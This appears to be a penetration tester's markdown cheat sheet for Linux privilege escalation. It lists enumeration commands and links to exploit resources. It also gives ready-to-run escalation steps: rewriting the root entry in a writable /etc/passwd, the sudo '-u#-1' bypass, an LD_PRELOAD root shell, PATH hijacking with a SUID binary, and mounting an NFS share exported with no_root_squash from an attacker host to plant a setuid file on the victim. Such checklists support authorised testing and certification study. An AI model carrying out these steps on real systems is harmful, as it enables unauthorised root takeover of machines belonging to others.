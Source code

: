 ## 03a. Linux Privilege Escalation
### Resources
- [Hacktricks Checklist](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
- [GTFOBins](https://gtfobins.github.io/)
- [Compiled Kernel Exploits](https://github.com/lucyoa/kernel-exploits)

### Upgrade your shell if it's not fully interactive
- `SHELL=/bin/bash script -q /dev/null`
- `python -c 'import pty;pty.spawn("/bin/bash")'`
- `python -c 'import pty;pty.spawn("/bin/sh")'`
- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `python3 -c 'import pty;pty.spawn("/bin/sh")'`
- ^Z and `stty raw -echo && fg`

### Checklist

- **SYSTEM - get system context**
	- `whoami` `id` `hostname`
- **Check for users && writable /etc/passwd**
	- `ls -la /etc/passwd` `cat /etc/passwd`
   		- `openssl passwd -1 -salt hacker hacker` and replace `root` password entry (or delete `x`)
		- `su root` `hacker` 
 	- check for passwords and info from user on /var/logs using `grep iR username`
- **KERNEL - Get kernel version** 
	- `uname -a` or `cat /proc/version` or `cat /etc/issue`
 	- search the result with `searchsploit`
  	- check on [CVE Details](https://www.cvedetails.com/)
  	- automated suggestions with [LES (Linux Exploit Suggester)](https://github.com/The-Z-Labs/linux-exploit-suggester)
  	- [Compiled Kernel Exploits](https://github.com/lucyoa/kernel-exploits)
	- `~/exploits` and Privilege Escalation notes
- **Check for sudo (valid password)** 
	- `sudo -l` `sudo -V` (below 1.28 `sudo -u#-1 /bin/bash`)
 	- if `env_keep+=LD_PRELOAD` exists we can load a custom lib (check repo files)
  		- `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
    	- `sudo LD_PRELOAD=/home/user/ldpreload/shell.so command`
- **Check for SUID Binaries**
	- `find / -perm -u=s -type f 2>/dev/null`
	- `find / -perm -04000 2>/dev/null`
 	- check binaries in [GTFOBins](https://gtfobins.github.io/)
- **Check capabilities**
	- `getcap -r / 2>/dev/null` look for cap_setuid+ep
- **Check cronjobs**
	- `ls -lah /etc/cron*` `cat /var/log/syslog | grep cron` `cat /var/log/cron.log`
	- `grep "CRON" /var/log/syslog` `ls -la /etc/cron.d` `ls -la /etc/cron.hourly`
 	- if the crontab script don't have a explicit path, it will execute from the directory present in crontab's `PATH=` var
- **Check environment**
	- `echo $PATH` `(env || set) 2>/dev/null` `history` `cat ~/.bashrc`
 	- check if you can write at $PATH
  	- copy binaries as bash or cat to new dir with new name
  	- create C script that calls the new bin, compile and `chmod u+s script`
  	- exec script from terminal
- **Check processes**
	- `ps aux` `ps -ef` `watch -n 1 "ps -aux | grep pass"`
 	- monitor for process without root privileges using [pspy64s](https://github.com/DominicBreuker/pspy)
- **Check your writable/usable files & file permissions**
	- `find / -writable -type d 2>/dev/null`
	- `find / -perm -u=s -type f 2>/dev/null`
	- `ls -la`
- **Check networking & services running on localhost**
	- `ip a` `netstat` `ss -anp`
- **Check NFS permissions**
	- `cat /etc/exports` if host use file sharing. Shared directory need `no_root_squash` param
 	- on attacker host
  		- `showmount -e VICTIM_IP`
		- `mkdir /tmp/dir`
  		- `mount -o rw VICTIM_IP:/dir_no_squash /tmp/dir`
    	- code c file (check repo)
    	- `gcc file.c -o file -w` this step may need to compile using older libs if victim host request. Use docker.
     	- `chmod +s file` and copy to /tmp/dir
	- on victim host exec the file from shared dir 
